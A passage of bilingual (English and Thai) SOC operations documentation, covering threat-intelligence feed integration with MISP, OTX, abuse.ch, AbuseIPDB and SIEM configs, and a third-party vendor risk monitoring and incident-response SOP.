| คะแนนคุณภาพรายงานส่งมอบ | ≥ 4/5 (peer review) | SOC Manager |

### 7.2 การตรวจสอบคุณภาพการส่งมอบ

SOC Manager ควรดำเนินการตรวจสอบคุณภาพการส่งมอบเป็นประจำทุกเดือน:

- [ ] ทุกส่วนที่บังคับถูกกรอกครบ?
- [ ] Incidents ที่ active อธิบายได้ถูกต้อง?
- [ ] มีรายงานสถานะระบบ?
- [ ] มีการบรีฟด้วยวาจา (ยืนยันจากทั้งสอง Lead)?
- [ ] ปัญหาจากการส่งมอบกะก่อนหน้าได้รับการแก้ไข?

---

## เอกสารที่เกี่ยวข้อง

- [กรอบ IR](../05_Incident_Response/Framework.th.md) — วงจรชีวิตการตอบสนองต่อเหตุการณ์หลัก
- [Escalation Matrix](../05_Incident_Response/Escalation_Matrix.th.md) — เมื่อไหร่และอย่างไรที่จะ escalate
- [ตัวชี้วัด SOC & KPIs](SOC_Metrics.th.md) — การวัดผลการปฏิบัติงาน
- [โครงสร้างทีม SOC](SOC_Team_Structure.th.md) — บทบาทและความรับผิดชอบ
- [การวางแผนกำลังคน SOC](SOC_Capacity_Planning.th.md) — รูปแบบการจัดคนและงบประมาณ
- [SOC Assessment Checklist](SOC_Assessment_Checklist.th.md) — ความพร้อมด้านปฏิบัติการ
- [แบบฟอร์มส่งมอบกะ](../11_Reporting_Templates/shift_handover.th.md) — ฟอร์มรายงานส่งมอบ

## อ้างอิง (References)

- [SANS SOC Handbook](https://www.sans.org/white-papers/soc-handbook/)
- [NIST SP 800-61r2 — Incident Handling](https://csrc.nist.gov/publications/detail/sp/800-61/rev-2/final)
- [MITRE 11 Strategies for a World-Class SOC](https://www.mitre.org/publications/technical-papers/11-strategies-world-class-cybersecurity-operations-center)


---

## File: 06_Operations_Management/TI_Feeds_Integration.en.md

# Threat Intelligence Feeds Integration Guide

> **Document ID:** TI-FEEDS-001  
> **Version:** 1.0  
> **Last Updated:** 2026-02-15  
> **Owner:** SOC Engineer / Threat Intel Analyst  

---

## Purpose

This guide provides step-by-step instructions for integrating **Threat Intelligence (TI) feeds** into your SOC infrastructure. Covers free, open-source, and commercial feeds with configuration examples for major SIEM/SOAR platforms.

---

## Recommended TI Feeds

### Free & Open Source

| Feed | Type | Update Freq | Format | API Key | Use For |
|:---|:---|:---:|:---|:---:|:---|
| [AlienVault OTX](https://otx.alienvault.com/) | IP, Domain, Hash, URL | Real-time | STIX/JSON | ✅ Free | General threat intel |
| [AbuseIPDB](https://www.abuseipdb.com/) | IP reputation | Real-time | JSON | ✅ Free | Brute force, scanning IPs |
| [URLhaus](https://urlhaus.abuse.ch/) | Malicious URLs | Every 5 min | CSV/JSON | ❌ | Malware distribution URLs |
| [MalwareBazaar](https://bazaar.abuse.ch/) | Malware samples | Real-time | JSON | ❌ | Hash lookups |
| [ThreatFox](https://threatfox.abuse.ch/) | IOCs (IP, Domain, Hash) | Real-time | JSON | ❌ | C2, botnet IOCs |
| [Feodo Tracker](https://feodotracker.abuse.ch/) | Botnet C2 IPs | Daily | CSV/JSON | ❌ | Banking trojan C2 |
| [MISP Default Feeds](https://www.misp-project.org/) | Mixed IOCs | Varies | MISP JSON | ❌ | Comprehensive threat sharing |
| [PhishTank](https://phishtank.org/) | Phishing URLs | Hourly | JSON/CSV | ✅ Free | Phishing detection |
| [Emerging Threats](https://rules.emergingthreats.net/) | Snort/Suricata rules | Daily | Rules | ❌ | Network IDS |

### Commercial (Recommended)

| Feed | Specialty | Integrations |
|:---|:---|:---|
| [VirusTotal](https://www.virustotal.com/) | Multi-engine file/URL/IP | All SIEMs, EDR, SOAR |
| [Recorded Future](https://www.recordedfuture.com/) | Risk scoring, APT tracking | Splunk, XSOAR, QRadar |
| [CrowdStrike Falcon Intel](https://www.crowdstrike.com/) | APT attribution, malware | CrowdStrike, Splunk |
| [Mandiant Advantage](https://www.mandiant.com/) | APT campaigns, vulnerabilities | Splunk, Sentinel, XSOAR |

---

## Integration Architecture

```mermaid
graph TB
    subgraph "TI Sources"
        OTX[AlienVault OTX]
        ABUSE[abuse.ch feeds]
        MISP[MISP Platform]
        VT[VirusTotal]
        CUSTOM[Custom Feeds]
    end

    subgraph "TI Platform"
        MISP_LOCAL[MISP Instance]
        OTX --> MISP_LOCAL
        ABUSE --> MISP_LOCAL
        MISP --> MISP_LOCAL
        VT --> MISP_LOCAL
        CUSTOM --> MISP_LOCAL
    end

    subgraph "Consumers"
        SIEM[SIEM<br>Splunk / Elastic / Sentinel]
        SOAR[SOAR<br>XSOAR / Shuffle]
        FW[Firewall<br>Auto-block]
        EDR[EDR<br>Hash blocklist]
    end

    MISP_LOCAL --> SIEM
    MISP_LOCAL --> SOAR
    MISP_LOCAL --> FW
    MISP_LOCAL --> EDR
```

---

## Setup Instructions

### 1. MISP — Central TI Platform

```bash
# Docker deployment (recommended)
git clone https://github.com/MISP/misp-docker.git
cd misp-docker
cp template.env .env
# Edit .env with your settings
docker-compose up -d
```

**Enable default feeds:**
1. Login to MISP Web UI → **Sync Actions → Feeds**
2. Click **Load default feed metadata**
3. Enable: CIRCL OSINT, Botvrij.eu, URLhaus, abuse.ch
4. Set **Pull frequency**: Every 1 hour
5. Click **Fetch and store all feeds**

### 2. AlienVault OTX

```python
# Python example — fetch OTX pulses
from OTXv2 import OTXv2, IndicatorTypes

API_KEY = "your_otx_api_key"
otx = OTXv2(API_KEY)

# Get subscribed pulses (last 7 days)
pulses = otx.getall(modified_since="2026-02-08")

for pulse in pulses:
    print(f"Pulse: {pulse['name']}")
    for indicator in pulse['indicators']:
        print(f"  {indicator['type']}: {indicator['indicator']}")
```

**SIEM integration (Splunk):**
```ini
# inputs.conf — OTX Threat Intel
[script://./bin/otx_feed.py]
interval = 3600
sourcetype = otx:pulses
index = threat_intel
```

### 3. abuse.ch Feeds

```bash
# Download URLhaus feed (cron every 5 min)
*/5 * * * * curl -s https://urlhaus.abuse.ch/downloads/csv_recent/ \
  | tail -n +10 > /opt/ti/urlhaus_recent.csv

# Download MalwareBazaar recent (hourly)
0 * * * * curl -s -X POST https://mb-api.abuse.ch/api/v1/ \
  -d "query=get_recent&selector=time" \
  -o /opt/ti/malwarebazaar_recent.json

# Download Feodo Tracker C2 IPs (daily)
0 6 * * * curl -s https://feodotracker.abuse.ch/downloads/ipblocklist_recommended.txt \
  > /opt/ti/feodo_c2_ips.txt
```

### 4. AbuseIPDB

```python
# Python example — check IP reputation
import requests

API_KEY = "your_abuseipdb_key"

def check_ip(ip):
    resp = requests.get(
        "https://api.abuseipdb.com/api/v2/check",
        headers={"Key": API_KEY, "Accept": "application/json"},
        params={"ipAddress": ip, "maxAgeInDays": 90}
    )
    data = resp.json()["data"]
    return {
        "ip": data["ipAddress"],
        "score": data["abuseConfidenceScore"],
        "country": data["countryCode"],
        "reports": data["totalReports"],
        "is_tor": data["isTor"]
    }
```

### 5. VirusTotal

```python
# Python example — file hash lookup
import requests

API_KEY = "your_vt_api_key"

def vt_hash_lookup(file_hash):
    resp = requests.get(
        f"https://www.virustotal.com/api/v3/files/{file_hash}",
        headers={"x-apikey": API_KEY}
    )
    if resp.status_code == 200:
        stats = resp.json()["data"]["attributes"]["last_analysis_stats"]
        return {
            "malicious": stats["malicious"],
            "suspicious": stats["suspicious"],
            "total": sum(stats.values())
        }
    return None
```

---

## SIEM Integration Patterns

### Elastic / OpenSearch

```yaml
# Filebeat — threat intel module
filebeat.modules:
  - module: threatintel
    abuseurl:
      enabled: true
      interval: 5m
    abusemalware:
      enabled: true
      interval: 1h
    misp:
      enabled: true
      var.url: "https://misp.local"
      var.api_token: "${MISP_API_TOKEN}"
      interval: 1h
    otx:
      enabled: true
      var.api_token: "${OTX_API_KEY}"
      interval: 1h
```

### Splunk

```ini
# Splunk ES — Threat Intel Framework
# Configure in Enterprise Security → Configure → Threat Intelligence

[threatlist://urlhaus]
url = https://urlhaus.abuse.ch/downloads/csv_recent/
type = ip
weight = 3
interval = 300
disabled = false

[threatlist://feodo_c2]
url = https://feodotracker.abuse.ch/downloads/ipblocklist_recommended.txt
type = ip
weight = 5
interval = 86400
disabled = false
```

### Microsoft Sentinel

```kusto
// KQL — Match TI indicators against network logs
let TI_IPs = ThreatIntelligenceIndicator
    | where Active == true and ExpirationDateTime > now()
    | where isnotempty(NetworkIP)
    | summarize by NetworkIP;

CommonSecurityLog
| where TimeGenerated > ago(1d)
| where DestinationIP in (TI_IPs) or SourceIP in (TI_IPs)
| project TimeGenerated, SourceIP, DestinationIP, DeviceAction, Activity
```

---

## Feed Lifecycle Management

| Stage | Action | Frequency |
|:---|:---|:---|
| **Ingest** | Pull feeds into MISP/SIEM | Per feed schedule |
| **Normalize** | Convert to standard format (STIX 2.1) | On ingest |
| **Score** | Assign confidence score based on source reliability | On ingest |
| **Correlate** | Match against live logs and alerts | Real-time |
| **Expire** | Remove stale IOCs (default: 90 days) | Daily |
| **Review** | Audit false positive rates per feed | Monthly |
| **Prune** | Disable low-quality feeds | Quarterly |

---

## Related Documents

- [Detection Rules (Sigma)](../08_Detection_Engineering/README.md)
- [SOAR Playbook Templates](../05_Incident_Response/SOAR_Playbooks.en.md)
- [Threat Intelligence Lifecycle](../06_Operations_Management/Threat_Intelligence_Lifecycle.en.md)
- [IOC Enrichment Sub-Playbook](../05_Incident_Response/SOAR_Playbooks.en.md#6-ioc-enrichment)


---

## File: 06_Operations_Management/TI_Feeds_Integration.th.md

# คู่มือเชื่อมต่อ Threat Intelligence Feeds

> **รหัสเอกสาร:** TI-FEEDS-001  
> **เวอร์ชัน:** 1.0  
> **อัปเดตล่าสุด:** 2026-02-15  
> **เจ้าของ:** SOC Engineer / Threat Intel Analyst  

---

## วัตถุประสงค์

คู่มือนี้ให้คำแนะนำขั้นตอนการเชื่อมต่อ **Threat Intelligence (TI) feeds** เข้ากับโครงสร้าง SOC ครอบคลุมทั้งฟรี, open-source, และ commercial พร้อมตัวอย่าง config สำหรับ SIEM/SOAR หลัก

---

## TI Feeds ที่แนะนำ

### ฟรี & Open Source

| Feed | ประเภท | ความถี่ | Format | API Key | ใช้สำหรับ |
|:---|:---|:---:|:---|:---:|:---|
| [AlienVault OTX](https://otx.alienvault.com/) | IP, Domain, Hash, URL | Real-time | STIX/JSON | ✅ ฟรี | Threat intel ทั่วไป |
| [AbuseIPDB](https://www.abuseipdb.com/) | IP reputation | Real-time | JSON | ✅ ฟรี | Brute force, scanning |
| [URLhaus](https://urlhaus.abuse.ch/) | Malicious URLs | ทุก 5 นาที | CSV/JSON | ❌ | URL กระจาย malware |
| [MalwareBazaar](https://bazaar.abuse.ch/) | ตัวอย่าง malware | Real-time | JSON | ❌ | ค้นหา hash |
| [ThreatFox](https://threatfox.abuse.ch/) | IOCs | Real-time | JSON | ❌ | C2, botnet |
| [Feodo Tracker](https://feodotracker.abuse.ch/) | Botnet C2 IPs | รายวัน | CSV/JSON | ❌ | Banking trojan C2 |
| [MISP Default Feeds](https://www.misp-project.org/) | IOC รวม | แตกต่างกัน | MISP JSON | ❌ | แชร์ข้อมูลภัยครอบคลุม |
| [PhishTank](https://phishtank.org/) | Phishing URLs | รายชั่วโมง | JSON/CSV | ✅ ฟรี | ตรวจจับ phishing |

### Commercial (แนะนำ)

| Feed | ความเชี่ยวชาญ | เชื่อมต่อ |
|:---|:---|:---|
| [VirusTotal](https://www.virustotal.com/) | Multi-engine file/URL/IP | ทุก SIEM, EDR, SOAR |
| [Recorded Future](https://www.recordedfuture.com/) | Risk scoring, APT tracking | Splunk, XSOAR, QRadar |
| [CrowdStrike](https://www.crowdstrike.com/) | APT attribution | CrowdStrike, Splunk |
| [Mandiant](https://www.mandiant.com/) | APT campaigns | Splunk, Sentinel, XSOAR |

---

## สถาปัตยกรรมการเชื่อมต่อ

```mermaid
graph TB
    subgraph "แหล่ง TI"
        OTX[AlienVault OTX]
        ABUSE[abuse.ch feeds]
        MISP[MISP Platform]
        VT[VirusTotal]
    end

    subgraph "TI Platform"
        MISP_LOCAL[MISP Instance]
        OTX --> MISP_LOCAL
        ABUSE --> MISP_LOCAL
        MISP --> MISP_LOCAL
        VT --> MISP_LOCAL
    end

    subgraph "ผู้ใช้งาน"
        SIEM[SIEM]
        SOAR[SOAR]
        FW[Firewall<br>Auto-block]
        EDR[EDR<br>Hash blocklist]
    end

    MISP_LOCAL --> SIEM
    MISP_LOCAL --> SOAR
    MISP_LOCAL --> FW
    MISP_LOCAL --> EDR
```

---

## คำแนะนำการติดตั้ง

### 1. MISP — ศูนย์กลาง TI

```bash
# Deploy ด้วย Docker (แนะนำ)
git clone https://github.com/MISP/misp-docker.git
cd misp-docker
cp template.env .env
# แก้ไข .env ตามต้องการ
docker-compose up -d
```

**เปิด default feeds:**
1. เข้า MISP Web UI → **Sync Actions → Feeds**
2. คลิก **Load default feed metadata**
3. เปิด: CIRCL OSINT, Botvrij.eu, URLhaus, abuse.ch
4. ตั้ง **Pull frequency**: ทุก 1 ชั่วโมง
5. คลิก **Fetch and store all feeds**

### 2. AlienVault OTX

```python
# Python — ดึง OTX pulses
from OTXv2 import OTXv2, IndicatorTypes

API_KEY = "your_otx_api_key"
otx = OTXv2(API_KEY)

pulses = otx.getall(modified_since="2026-02-08")
for pulse in pulses:
    print(f"Pulse: {pulse['name']}")
    for indicator in pulse['indicators']:
        print(f"  {indicator['type']}: {indicator['indicator']}")
```

### 3. abuse.ch Feeds

```bash
# Cron สำหรับดึง feed อัตโนมัติ
*/5 * * * * curl -s https://urlhaus.abuse.ch/downloads/csv_recent/ \
  | tail -n +10 > /opt/ti/urlhaus_recent.csv

0 * * * * curl -s -X POST https://mb-api.abuse.ch/api/v1/ \
  -d "query=get_recent&selector=time" \
  -o /opt/ti/malwarebazaar_recent.json

0 6 * * * curl -s https://feodotracker.abuse.ch/downloads/ipblocklist_recommended.txt \
  > /opt/ti/feodo_c2_ips.txt
```

### 4. AbuseIPDB

```python
import requests

API_KEY = "your_abuseipdb_key"

def check_ip(ip):
    resp = requests.get(
        "https://api.abuseipdb.com/api/v2/check",
        headers={"Key": API_KEY, "Accept": "application/json"},
        params={"ipAddress": ip, "maxAgeInDays": 90}
    )
    data = resp.json()["data"]
    return {
        "ip": data["ipAddress"],
        "score": data["abuseConfidenceScore"],
        "country": data["countryCode"],
        "reports": data["totalReports"]
    }
```

---

## รูปแบบเชื่อมต่อ SIEM

### Elastic / OpenSearch

```yaml
filebeat.modules:
  - module: threatintel
    abuseurl:
      enabled: true
      interval: 5m
    misp:
      enabled: true
      var.url: "https://misp.local"
      var.api_token: "${MISP_API_TOKEN}"
      interval: 1h
    otx:
      enabled: true
      var.api_token: "${OTX_API_KEY}"
      interval: 1h
```

### Splunk

```ini
[threatlist://urlhaus]
url = https://urlhaus.abuse.ch/downloads/csv_recent/
type = ip
weight = 3
interval = 300

[threatlist://feodo_c2]
url = https://feodotracker.abuse.ch/downloads/ipblocklist_recommended.txt
type = ip
weight = 5
interval = 86400
```

### Microsoft Sentinel

```kusto
let TI_IPs = ThreatIntelligenceIndicator
    | where Active == true and ExpirationDateTime > now()
    | where isnotempty(NetworkIP)
    | summarize by NetworkIP;

CommonSecurityLog
| where TimeGenerated > ago(1d)
| where DestinationIP in (TI_IPs) or SourceIP in (TI_IPs)
| project TimeGenerated, SourceIP, DestinationIP, DeviceAction
```

---

## วงจร Feed Management

| ขั้นตอน | การดำเนินการ | ความถี่ |
|:---|:---|:---|
| **Ingest** | ดึง feeds เข้า MISP/SIEM | ตาม feed schedule |
| **Normalize** | แปลงเป็น STIX 2.1 | เมื่อ ingest |
| **Score** | ให้ confidence score | เมื่อ ingest |
| **Correlate** | จับคู่กับ logs/alerts | Real-time |
| **Expire** | ลบ IOC ที่เก่า (default: 90 วัน) | รายวัน |
| **Review** | ตรวจ false positive rate | รายเดือน |
| **Prune** | ปิด feed คุณภาพต่ำ | รายไตรมาส |

---

## Feed Quality Assessment

| Feed | ประเภท | Volume/วัน | FP Rate | Actionable? | ค่าใช้จ่าย |
|:---|:---|:---:|:---:|:---:|:---|
| AlienVault OTX | Open | ~1,000 IoCs | 15–25% | ปานกลาง | ฟรี |
| Abuse.ch (URLhaus/ThreatFox) | Open | ~500 | 5–10% | สูง | ฟรี |
| MISP Community | Open | ~200 | 10–15% | สูง | ฟรี |
| VirusTotal | Commercial | Unlimited | < 5% | สูงมาก | $$$ |
| Recorded Future | Commercial | ~2,000 | < 3% | สูงมาก | $$$ |

## TI Feed Integration Architecture

```mermaid
graph TD
    Feeds["📡 TI Feeds"] --> MISP["🔄 MISP (Aggregator)"]
    MISP --> Enrich["📊 Enrich + Dedup"]
    Enrich --> SIEM["🖥️ SIEM (Correlation)"]
    Enrich --> EDR["🛡️ EDR (Block)"]
    Enrich --> FW["🔥 Firewall (Block)"]
    SIEM --> Alert["⚠️ Alert"]
    Alert --> SOAR["🤖 SOAR"]
```

## Feed Lifecycle Management

| กิจกรรม | ความถี่ |
|:---|:---|
| ทบทวน feed quality + FP rate | รายเดือน |
| ลบ IoCs ที่หมดอายุ | อัตโนมัติ (TTL) |
| ประเมิน feed ใหม่ | รายไตรมาส |
| ทบทวน commercial feed ROI | รายปี |

### Feed Performance Tracking

| Feed | IOCs/Day | Match Rate | Action |
|:---|:---|:---|:---|
| MISP Community | 500+ | 2-5% | Block + Alert |
| OTX | 1,000+ | 1-3% | Enrich |
| Abuse.ch | 200+ | 5-10% | Block |
| Commercial TI | 100+ | 10-20% | Priority alert |

### Feed ROI Assessment

| Feed | Cost/Year | Detections/Month | Cost/Detection |
|:---|:---|:---|:---|
| Commercial A | 500K THB | 50 | 10K THB |
| Commercial B | 300K THB | 25 | 12K THB |
| Open Source | Free | 15 | Free |

## เอกสารที่เกี่ยวข้อง

- [Detection Rules (Sigma)](../08_Detection_Engineering/README.md)
- [SOAR Playbook Templates](../05_Incident_Response/SOAR_Playbooks.th.md)
- [วงจร Threat Intelligence](Threat_Intelligence_Lifecycle.th.md)


---

## File: 06_Operations_Management/Third_Party_Risk.en.md

# Third-Party Risk — SOC Integration SOP

**Document ID**: OPS-SOP-014
**Version**: 1.0
**Classification**: Internal
**Last Updated**: 2026-02-15

> Third parties and supply chain partners extend your attack surface. This SOP defines how the SOC **monitors**, **responds to**, and **manages risk** from vendors, contractors, APIs, and outsourced services.

---

## Scope

| In Scope | Out of Scope |
|:---|:---|
| Vendor VPN/remote access monitoring | Vendor financial risk assessment |
| Third-party API security monitoring | Contract negotiation |
| Supply chain attack detection | Procurement process |
| Vendor incident notification & response | Vendor selection |
| MSSP / outsourced SOC coordination | Legal liability determination |
| SaaS/Cloud provider security monitoring | Insurance claims |

---

## Third-Party Risk Categories

```mermaid
graph TD
    TP[Third-Party Risk] --> ACC[Access Risk]
    TP --> DATA[Data Risk]
    TP --> SUPPLY[Supply Chain Risk]
    TP --> SVC[Service Risk]
    TP --> COMP[Compliance Risk]

    ACC --> ACC1[VPN access]
    ACC --> ACC2[API credentials]
    ACC --> ACC3[Privileged accounts]

    DATA --> DATA1[Data sharing]
    DATA --> DATA2[Data processing]
    DATA --> DATA3[Data residency]

    SUPPLY --> SUPPLY1[Software updates]
    SUPPLY --> SUPPLY2[Open source dependencies]
    SUPPLY --> SUPPLY3[Hardware supply chain]

    SVC --> SVC1[Managed services]
    SVC --> SVC2[Cloud providers]

    COMP --> COMP1[PDPA compliance]
    COMP --> COMP2[Certification status]

    style TP fill:#3b82f6,color:#fff
```

---

## Vendor Risk Tiering

| Tier | Criteria | SOC Monitoring Level | Review Frequency | Access Type |
|:---:|:---|:---:|:---:|:---|
| **Tier 1** 🔴 Critical | Direct access to production, handles PII, provides security services | **Full** — real-time + dedicated alerts | Monthly | VPN + privileged accounts |
| **Tier 2** 🟠 High | Access to staging/dev, handles business data, SaaS with sensitive data | **Enhanced** — daily log review + alerts | Quarterly | Limited VPN / API keys |
| **Tier 3** 🟡 Medium | Limited access, no sensitive data, non-critical services | **Standard** — weekly review | Semi-annually | Portal / restricted API |
| **Tier 4** 🟢 Low | No direct access, public-facing only | **Basic** — event-driven | Annually | None / public API only |

---

## SOC Monitoring Requirements by Tier

### Tier 1 — Critical Vendors

| # | Monitoring Requirement | Data Source | Alert Rule |
|:---:|:---|:---|:---|
| 1 | Login/logout from vendor accounts | IAM / AD | Login outside approved hours, from new IP/country |
| 2 | Privileged commands executed | EDR / cmdline logs | Admin command from vendor account |
| 3 | Data access patterns | DLP / file access logs | Bulk download, access outside scope |
| 4 | Network traffic anomalies | Firewall / NDR | Large outbound transfer, unusual ports |
| 5 | API call volume & patterns | API gateway logs | Spike in API calls, new endpoints accessed |
| 6 | File modifications | FIM | Changes to critical files during vendor session |
| 7 | Lateral movement attempts | EDR / SIEM | Access to systems outside approved scope |

### Tier 2 — High Risk Vendors

| # | Monitoring Requirement | Data Source |
|:---:|:---|:---|
| 1 | Login/logout tracking | IAM / AD |
| 2 | Data access patterns | DLP |
| 3 | API usage monitoring | API gateway |
| 4 | Session duration tracking | VPN / firewall |

### Tier 3–4 — Medium/Low Risk

| # | Monitoring Requirement | Data Source |
|:---:|:---|:---|
| 1 | Authentication events | IAM |
| 2 | API rate limiting alerts | API gateway |

---

## Vendor Access Controls

### Pre-Access Checklist

- [ ] Vendor registered in vendor inventory
- [ ] Tier classification assigned
- [ ] Access request approved by system owner
- [ ] MFA enforced for all vendor accounts
- [ ] Time-limited access window configured
- [ ] IP allowlist configured (where applicable)
- [ ] Monitoring rules deployed per tier
- [ ] Break-glass procedure confirmed

### Access Monitoring Dashboard

| Metric | Current | Alert Threshold |
|:---|:---:|:---:|
| Active vendor sessions | _____ | > 10 concurrent |
| Vendor accounts with recent password change | _____ | < 90 days required |
| Vendor accounts without MFA | _____ | Must be 0 |
| Dormant vendor accounts (no login 90 days) | _____ | Auto-disable |
| Vendor sessions outside approved hours | _____ | Auto-alert |

---

## Third-Party Incident Response

### When a Vendor Is Compromised

```mermaid
flowchart TD
    A[🔔 Vendor Breach Notification] --> B{Our data affected?}
    B -->|Yes| C[P1: Activate IR]
    B -->|No| D[P3: Monitor & assess]
    B -->|Unknown| E[P2: Investigate urgently]

    C --> F[Disable all vendor access]
    C --> G[Scope data exposure]
    C --> H[Notify DPO / Legal]

    E --> I[Request vendor IOCs]
    E --> J[Retroactive hunt in logs]
    I --> K{Match found?}
    J --> K
    K -->|Yes| C
    K -->|No| L[Continue monitoring 30 days]

    D --> M[Review vendor remediation plan]
    M --> N[Update vendor risk score]

    style A fill:#3b82f6,color:#fff
    style C fill:#dc2626,color:#fff
    style L fill:#22c55e,color:#fff
```

### Response Steps

| Step | Action | Owner | SLA |
|:---:|:---|:---|:---:|
| 1 | Receive vendor breach notification | SOC Tier 2 | — |
| 2 | Assess impact: Is our data/access affected? | SOC Lead | 1 hour |
| 3 | If affected: **Disable all vendor access immediately** | SOC Engineering | 15 min |
| 4 | Request vendor IOCs (IPs, domains, hashes, TTPs) | SOC Lead | 2 hours |
| 5 | Hunt for vendor IOCs in our logs (retroactive 90 days) | SOC Tier 2/3 | 4 hours |
| 6 | If match found: **Escalate to P1, full IR activation** | IR Manager | Immediate |
| 7 | Notify DPO/Legal if PII potentially exposed | SOC Manager | 4 hours |
| 8 | PDPA notification if Thai citizen data affected | DPO | < 72 hours |
| 9 | Monitor vendor remediation progress | Vendor Manager | Weekly |
| 10 | Vendor must provide root cause + remediation report | Vendor | 30 days |
| 11 | Update vendor risk tier based on incident | SOC Manager | Post-incident |

### When SOC Detects Suspicious Vendor Activity

| Step | Action | Owner |
|:---:|:---|:---|
| 1 | Alert triggered by vendor monitoring rule | SOC Tier 1 |
| 2 | Verify: Is this authorized activity? | SOC Tier 2 |
| 3 | If unauthorized: **Suspend vendor access** | SOC Engineering |
| 4 | Contact vendor's security team | SOC Lead |
| 5 | Conduct forensic investigation if needed | SOC Tier 3 |
| 6 | Document findings and update vendor risk score | SOC Lead |

---

## Supply Chain Attack Detection

### Red Flags to Watch For

| Signal | Detection Method | Rule Example |
|:---|:---|:---|
| Software update from unexpected source | Hash verification | Update hash ≠ vendor's published hash |
| Unexpected code in dependency | SCA tools (Snyk, etc.) | New dependency with low reputation |
| Vendor tool making unusual network calls | NDR / firewall | Vendor agent connecting to unknown IPs |
| Certificate change on vendor portal | Certificate monitoring | Cert issuer changed unexpectedly |
| Sudden change in vendor API behavior | API monitoring | New endpoints, changed data formats |
| Vendor domain DNS changes | DNS monitoring | Nameserver change, new CNAME records |

### SolarWinds-Style Defense Checklist

- [ ] Validate update hashes before deployment
- [ ] Monitor vendor software network behavior post-update
- [ ] Segment vendor tools on separate network segment
- [ ] Run vendor binaries in monitored sandbox first
- [ ] Subscribe to vendor security advisories
- [ ] Maintain vendor software bill of materials (SBOM)

---

## Vendor Inventory Template

| Vendor Name | Tier | Service Provided | Data Access | Access Method | Monitoring Level | Contract Expiry | Last Review | Risk Score |
|:---|:---:|:---|:---|:---|:---:|:---:|:---:|:---:|
| ____________ | 1/2/3/4 | ____________ | PII/Business/None | VPN/API/Portal | Full/Enhanced/Standard/Basic | ____-__-__ | ____-__-__ | __/10 |
| ____________ | 1/2/3/4 | ____________ | PII/Business/None | VPN/API/Portal | Full/Enhanced/Standard/Basic | ____-__-__ | ____-__-__ | __/10 |

---

## MSSP / Outsourced SOC Coordination

> If parts of SOC operations are outsourced, these additional controls apply.

| Requirement | Details |
|:---|:---|
| **Shared playbooks** | MSSP must follow same playbooks as internal team |
| **Escalation path** | MSSP → Internal SOC Lead → IR Manager (documented) |
| **Data handling** | MSSP cannot export data without approval |
| **SLA monitoring** | Track MSSP MTTD, MTTR, SLA compliance separately |
| **Audit rights** | Quarterly review of MSSP operations and access |
| **Termination plan** | Documented plan for transitioning away from MSSP |

---

## Metrics

| Metric | Target | Measurement |
|:---|:---:|:---|
| Vendor access reviews completed on time | 100% | Per tier schedule |
| Vendor accounts with MFA | 100% | Monthly check |
| Dormant vendor accounts disabled | 100% (> 90 days) | Automated check |
| Vendor incidents detected internally | Track | Before vendor notification |
| Mean time to disable compromised vendor | < 15 min | From detection to disable |
| Vendor IOC hunt completion | < 4 hours | From IOC receipt to scan complete |

---

## Related Documents

-   [Escalation Matrix](../05_Incident_Response/Escalation_Matrix.en.md) — Who to escalate to
-   [Incident Classification](../05_Incident_Response/Incident_Classification.en.md) — Classify vendor incidents
-   [Forensic Investigation](../05_Incident_Response/Forensic_Investigation.en.md) — If forensics needed
-   [Vendor Evaluation](Vendor_Evaluation.en.md) — Tool/vendor evaluation template
-   [SLA Template](SLA_Template.en.md) — SLA definitions
-   [Log Source Matrix](Log_Source_Matrix.en.md) — Data source coverage
-   [SOC Automation Catalog](SOC_Automation_Catalog.en.md) — Automation for vendor monitoring


---

## File: 06_Operations_Management/Third_Party_Risk.th.md

# Third-Party Risk — SOC Integration SOP / SOP ความเสี่ยงจากบุคคลที่สาม

**รหัสเอกสาร**: OPS-SOP-014
**เวอร์ชัน**: 1.0
**การจัดชั้นความลับ**: ใช้ภายใน
**อัปเดตล่าสุด**: 2026-02-15

> บุคคลที่สามและ supply chain ขยายพื้นผิวโจมตีขององค์กร SOP นี้กำหนดวิธีที่ SOC **ติดตาม**, **ตอบสนอง**, และ **จัดการความเสี่ยง** จาก vendors, ผู้รับเหมา, APIs, และบริการ outsource

---

## การจัดชั้นความเสี่ยง Vendor

| ชั้น | เกณฑ์ | ระดับ SOC Monitoring | ความถี่ทบทวน | ประเภทการเข้าถึง |
|:---:|:---|:---:|:---:|:---|
| **Tier 1** 🔴 | เข้าถึง production, จัดการ PII, ให้บริการด้าน security | **เต็มรูปแบบ** — real-time + dedicated alerts | รายเดือน | VPN + privileged accounts |
| **Tier 2** 🟠 | เข้าถึง staging/dev, จัดการข้อมูลธุรกิจ | **เข้มข้น** — ตรวจ log รายวัน + alerts | รายไตรมาส | VPN จำกัด / API keys |
| **Tier 3** 🟡 | เข้าถึงจำกัด, ไม่มีข้อมูลสำคัญ | **มาตรฐาน** — ตรวจรายสัปดาห์ | ทุก 6 เดือน | Portal / restricted API |
| **Tier 4** 🟢 | ไม่มีการเข้าถึงโดยตรง | **พื้นฐาน** — ตามเหตุการณ์ | รายปี | ไม่มี / public API |

---

## ข้อกำหนดการ Monitor ตามชั้น

### Tier 1 — Vendor วิกฤต

| # | ข้อกำหนด | แหล่งข้อมูล | Alert Rule |
|:---:|:---|:---|:---|
| 1 | Login/logout จาก vendor accounts | IAM / AD | Login นอกเวลาที่อนุมัติ, IP/ประเทศใหม่ |
| 2 | คำสั่ง privileged ที่ทำ | EDR / cmdline logs | Admin command จาก vendor account |
| 3 | รูปแบบการเข้าถึงข้อมูล | DLP / file access logs | Bulk download, เข้าถึงนอกขอบเขต |
| 4 | Network traffic anomalies | Firewall / NDR | โอนข้อมูลขนาดใหญ่, port ผิดปกติ |
| 5 | ปริมาณ API calls | API gateway logs | Spike ใน API calls |
| 6 | การแก้ไขไฟล์ | FIM | เปลี่ยนไฟล์สำคัญระหว่าง vendor session |
| 7 | Lateral movement | EDR / SIEM | เข้าถึงระบบนอกขอบเขตที่อนุมัติ |

---

## การควบคุมการเข้าถึง Vendor

### Checklist ก่อนอนุญาตเข้าถึง

- [ ] ลงทะเบียน vendor ในทะเบียน vendor inventory
- [ ] กำหนดชั้นความเสี่ยง
- [ ] ได้รับอนุมัติจาก system owner
- [ ] บังคับ MFA สำหรับ vendor accounts ทั้งหมด
- [ ] กำหนดช่วงเวลาเข้าถึง (time-limited)
- [ ] กำหนด IP allowlist (ถ้าเป็นไปได้)
- [ ] Deploy monitoring rules ตามชั้น
- [ ] ยืนยัน break-glass procedure

---

## การตอบสนองเมื่อ Vendor ถูกบุกรุก

```mermaid
flowchart TD
    A[🔔 Vendor แจ้ง Breach] --> B{ข้อมูลเราได้รับผลกระทบ?}
